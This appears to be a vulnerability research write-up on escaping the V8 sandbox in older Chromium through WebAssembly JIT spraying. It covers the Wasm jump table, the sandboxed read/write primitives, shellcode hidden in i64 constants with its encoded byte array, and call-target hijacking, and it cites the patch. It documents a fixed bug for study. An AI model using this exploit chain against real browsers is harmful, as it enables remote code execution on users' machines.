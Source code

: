 # Escaping V8 Sandbox via WebAssembly JIT Spraying: Part 1 (Chromium < 106.0.5249.61)

In this post, I will explain how to escape V8 sandbox to get RCE via WebAssembly JIT spraying, while we have limited exploitation primitives like `addrof` and sandboxed AAR/AAW.

## Setup

- Ubuntu 22.04.5 LTS
- [cb5c1b8a1fd1eee214501ee06fdd4566886803c1](https://chromium.googlesource.com/v8/v8/+/cb5c1b8a1fd1eee214501ee06fdd4566886803c1) (Jul 26th, 2022)

Run [`setup.zsh`](./setup.zsh) in your working directory.
## Analysis

### WebAssembly jump table

```js
// flags: --allow-natives-syntax --shell

/*
(module
    (func (export "f1"))
    (func (export "f2"))
    (func (export "f3"))
    (func (export "f4"))
)
*/
let wasm_src = new Uint8Array([0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x5, 0x4, 0x0, 0x0, 0x0, 0x0, 0x7, 0x15, 0x4, 0x2, 0x66, 0x31, 0x0, 0x0, 0x2, 0x66, 0x32, 0x0, 0x1, 0x2, 0x66, 0x33, 0x0, 0x2, 0x2, 0x66, 0x34, 0x0, 0x3, 0xa, 0xd, 0x4, 0x2, 0x0, 0xb, 0x2, 0x0, 0xb, 0x2, 0x0, 0xb, 0x2, 0x0, 0xb]);
let wasm_module = new WebAssembly.Module(wasm_src);
```

When a Wasm module is constructed, a memory region whose permission is set to RWX is allocated for compiling and executing Wasm functions.

![](img/1.png)

There is jump table at the very front of this region, which is responsible for deciding execution flow when Wasm function is called.

![](img/2.png)

Each `jmp` instruction in jump table is pointing the address of compiled code of each function in Wasm module.

The address of jump table is stored in [`WasmInstanceObject`](https://source.chromium.org/chromium/v8/v8/+/cb5c1b8a1fd1eee214501ee06fdd4566886803c1:src/wasm/wasm-objects.h;l=325), as [`jump_table_start`](https://source.chromium.org/chromium/v8/v8/+/cb5c1b8a1fd1eee214501ee06fdd4566886803c1:src/wasm/wasm-objects.h;l=360).

![](img/3.png)

![](img/4.png)

## Exploitation

### Implement exploitation primitives

We can implement sandboxed [`addrof`](./pwn.js#L7) primitive which returns address of arbitrary JavaScript object in V8 sandbox, using `Sandbox.getAddressOf`. Also, we can implement sandboxed [AAR](./pwn.js#L12)/[AAW](./pwn.js#L24) primitives which read and write value at arbitrary address in V8 sandbox, using `Sandbox.MemoryView`.

### JIT (Just-In-Time) spraying

```js
/*
(module
    (func (export "main")
        i64.const 0x4141414141414141
        i64.const 0x4242424242424242
        i64.const 0x4343434343434343
        return
    )
)
*/
let wasm_src = new Uint8Array([0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x2, 0x1, 0x0, 0x7, 0x8, 0x1, 0x4, 0x6d, 0x61, 0x69, 0x6e, 0x0, 0x0, 0xa, 0x26, 0x1, 0x24, 0x0, 0x42, 0xc1, 0x82, 0x85, 0x8a, 0x94, 0xa8, 0xd0, 0xa0, 0xc1, 0x0, 0x42, 0xc2, 0x84, 0x89, 0x92, 0xa4, 0xc8, 0x90, 0xa1, 0xc2, 0x0, 0x42, 0xc3, 0x86, 0x8d, 0x9a, 0xb4, 0xe8, 0xd0, 0xa1, 0xc3, 0x0, 0xf, 0xb]);
let wasm_module = new WebAssembly.Module(wasm_src);

let wasm_instance = new WebAssembly.Instance(wasm_module);
% DebugPrint(wasm_instance);
```

![](img/5.png)

`main()` in `wasm_module` is a function which loads 64-bit constants. These constants are inserted to the compiled code as raw numbers. It means that we can insert arbitrary 8-byte constants to executable code region. If we move `rip` to the address of any constant, it will act like an 8-byte shellcode.

### Construct shellcode chain

With just 8-byte shellcode, we won't be able to do what we want to do. Instead, we can chain several short shellcodes using `jmp` instruction.

[`shellcode.py`](./shellcode.py)

![](img/6.png)

![](img/7.png)

If `main()` loads the same number twice, the second is not inserted to compiled code. Then, chain is broken and shellcode doesn't work. Therefore, we should slightly change the order of instructions or move the position of `nop` instructions to make sure that all numbers are different. In addition, we should consider that the distance between shellcodes is changed from the middle because the code which backs registers up to stack is inserted if all registers are in use.

[`pwn.wat`](./pwn.wat)

[`wasm.py`](./wasm.py)

```zsh
~/wabt/bin/wat2wasm pwn.wat # output: pwn.wasm
python3 wasm.py # output: [0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x2, 0x1, 0x0, 0x7, 0x8, 0x1, 0x4, 0x6d, 0x61, 0x69, 0x6e, 0x0, 0x0, 0xa, 0xb1, 0x1, 0x1, 0xae, 0x1, 0x0, 0x42, 0xc8, 0xe2, 0x80, 0x86, 0x89, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xe6, 0xf0, 0xb2, 0x9b, 0x86, 0x8a, 0xe4, 0xf5, 0x2, 0x42, 0xb8, 0xdf, 0xe0, 0x9b, 0x96, 0x8c, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0x82, 0x83, 0x87, 0x82, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0x8a, 0xbc, 0x91, 0x96, 0xcd, 0xdb, 0xf5, 0x2, 0x42, 0xd0, 0x90, 0xa5, 0xbc, 0x8e, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0xe2, 0xd8, 0x87, 0x89, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0x90, 0x91, 0xc5, 0x81, 0x8c, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xe6, 0xf0, 0xea, 0x81, 0x83, 0x8a, 0xe4, 0xf5, 0x2, 0x42, 0xb8, 0x99, 0x85, 0xca, 0xd5, 0x87, 0xe4, 0xf5, 0x6, 0x42, 0x90, 0x91, 0x85, 0x86, 0x8e, 0x84, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0x8a, 0x90, 0xca, 0xb4, 0x8a, 0xd4, 0xf5, 0x6, 0x42, 0xd0, 0x90, 0xa5, 0x84, 0x8e, 0x92, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0xe2, 0xec, 0x9e, 0x85, 0x8a, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0x92, 0x8a, 0x87, 0x89, 0x92, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0xe2, 0x80, 0x86, 0xbb, 0x87, 0xe4, 0xf5, 0x6, 0x42, 0x8f, 0x8a, 0xc0, 0x84, 0x89, 0x92, 0xa4, 0xc8, 0x90, 0x7f, 0xf, 0xb]
```

### Hijack execution flow

When Wasm function is called, we can see following execution flow:

![](img/8.png)

![](img/9.png)

![](img/10.png)

`WasmInternalFunction` object is inside of V8 sandbox, so we can overwrite its call target using sandboxed AAW primitive and control `rip`.

[`pwn.js`](./pwn.js)

![](img/11.png)

## Patch

> [[sandbox] Refactor and sandboxify WasmInternalFunction::call_target](https://chromium.googlesource.com/v8/v8/+/2eb73988a37a60520a0f8e0b1109edbcc0b91415) (Jul 26th, 2022)
> 
> This CL refactors WasmInternalFunction to no longer inherit from Foreign but instead contain a (sandboxed) ExternalPointer field for the call target.
